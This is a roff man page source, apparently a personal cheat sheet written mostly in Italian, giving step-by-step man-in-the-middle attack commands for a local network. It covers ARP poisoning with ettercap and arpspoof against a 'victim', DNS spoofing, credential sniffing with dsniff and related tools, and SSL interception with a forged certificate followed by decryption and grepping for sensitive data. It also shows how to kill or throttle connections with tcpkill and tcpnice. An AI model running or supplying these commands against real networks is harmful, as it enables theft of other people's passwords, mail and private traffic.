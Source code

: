 .\" generated with Ronn/v0.7.3
.\" http://github.com/rtomayko/ronn/tree/0.7.3
.
.TH "MITM" "1" "February 2014" "Filippo Squillace" "mitm"
.
.SH "sysctl"
To displays all the output(parameters): \fBsysctl \-a\fR
.
.P
To do changes with the appropriate command: \fBsudo sysctl \-w parameter=value\fR
.
.P
For example: \fBsudo sysctl \-w net\.ipv4\.ip_forward=1\fR
.
.P
To load the value into kernel and become live: \fBsysctl \-a\fR
.
.SH "ettercap \- mitm"
Non c\'è bisogno di abilitare l\'inoltro ip ma basta semplicemente eseguire il comando dopo la config di /etc/etter\.conf
.
.P
\fBsudo ettercap \-Tqi wlan0 \-M arp:remote /VICTIM/ /GW/\fR
.
.P
ATTENZIONE: Non provare SSL utilizando il bridged mode in quanto non funziona\. ATTENZIONE: Non usare ip_forward=1 in quanto si rischierebbe di inviare duplicati(Vedere la descrizione di man ettercap per ulterior dettagli)\. ATTENZIONE: Assicurarsi di avere installato iptables altrimenti non funzionerebbe il forward\.
.
.P
To check if ARP poison is working well try: \fBarp \-a\fR
.
.SH "ettercap \- dns_spoof"
Modifica il file /usr/share/ettercap/etter\.dns inserendo una regola del tipo: * A 127\.0\.0\.1 per inoltrare tutti i dns al localhost Attivare il plugin dns_spoof
.
.SH "ettercap \- remote_browser"
Serve per conoscere le pagine visitate dall\'utente\. Specificare il browser da usare su /etc/etter\.conf
.
.SH "man in the middle (mitm)"
Per abilitare l\'inoltro dei pacchetti fare in questo modo (da non utilizzare con il comando fragrouter): \fBecho 1 > /proc/sys/net/ipv4/ip\-forward\fR
.
.P
Se non funziona provare: \fBsudo sysctl \-w net\.ipv4\.ip_forward=0\fR
.
.P
La prima operazione da fare è il comando arpspoof\. Consideriamo i seguenti IP: IP_VICTIM è l\'IP della vittima e IP_SERVER\. I comandi da eseguire sono: \fBarpspoof \-t IP_VICTIM IP_SERVER\fR e \fBarpspoof \-t IP_SERVER IP_VICTIM\fR
.
.P
La successiva operazione è fare in modo che il mitm possa inoltrare effettivamente i pacchetti in transito: \fBfragrouter \-B1\fR
.
.SH "sniffing"
Questa è un operazione che va fatta una volta che il pc è in mitm!! Il comando capace di sniffare user e pass di moltissimi protocolli è: \fBdsniff \-i eth0 \-md\fR
.
.P
L\'opzione \-m consente il controllo automatico dei protocolli e \-d è il debugging mode\. Un\'altro comando che spesso viene adoperato è: \fBngrep host IP\fR
.
.P
Dove IP è l\'indirizzo IP della vittima\.
.
.P
Gli comandi di sniffing sono: Sniffa mail e li pone in output ben formattati: \fBmailsnarf\fR
.
.P
Sniffa URL: \fBurlsnarf\fR
.
.P
Sniffa messaggi su IRC, MSN etc: \fBmsgsnarf\fR
.
.P
Sniffa file su NFS: \fBfilesnarf\fR
.
.P
Manda gli URL sniffati al proprio browser locale: \fBwebspy\fR
.
.SH "SSL mitm"
Questa è un operazione che va fatta una volta che il pc è in mitm!! Questa procedura consente di ottenere falsificare i certificati che vengono trasmessi via HTTP, POP, SMTP o qualunque altro protocollo che si poggia sul SSL\. La prima operazione è redirezionare il traffico HTTP/HTTPS tramite: \fBdnsspoof\fR
.
.P
Successivamente occorre falsificare il certificato tramite il comando: \fBwebmitm\fR
.
.P
A questo punto il comando webmitm restituirà il falso certificato (webmitm\.crt) che potrà essere utilizzato per decifrare il traffico SSL sniffato tramite wireshark (ethereal) e posto in un file\. Quindi: \fBssldump \-r ozzy \-k webmitm\.crt \-d > outozzy\fR
.
.P
con \-r specifichiamo il dumpfile, \-k è la chiave, \-d indica di decifrare i dati Rimane solo da interpretare i dati ormai decifrati: \fBcat outozzy | grep ??\fR
.
.P
In grep si può mettere qualcosa che possa filtrare i dati in modo da ottenere più facilmente i dati sensibili\. Per esempio si può inserire il nome di qualche tag html vicino ai dati sensibili\.
.
.SH "kill and slow down connection with tcpkill and tcpnice"
Se vogliamo chiudere le connessioni TCP su porta 22 (SSH): \fBtcpkill \-i eth0 tcp port 22\fR
.
.P
If you want to kill all the connections but not for a pecified host: \fBsudo tcpkill \-i wlan0 \-9 not host 192\.168\.1\.109\fR
.
.P
Se vogliamo rallentare una connessione TCP iniettando pacchetti che avvisano di una finestra di ricezione piccola o pacchetti ICMP: \fBtcpnice \-i eth0 tcp port 22\fR
.
.P
To slow down all the connection but not for a specified host: \fBsudo tcpnice \-i wlan0 not host 192\.168\.1\.109\fR

